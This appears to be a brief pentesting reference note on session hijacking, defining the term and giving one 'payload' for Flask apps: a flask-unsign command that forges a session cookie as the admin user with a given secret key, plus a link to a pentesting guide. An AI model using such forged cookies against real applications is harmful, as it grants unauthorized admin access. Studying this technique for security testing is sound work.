 #Exploit #Payload #Vulnerability #Red-Team #script 

## What is Hijack?

#### Hijacking is when someone takes control of something, like a system or connection, without permission.


## Flask (session)

### Payload:

### `flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret '@09JKD0934jd712?djD'`


### Resource: `https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask`
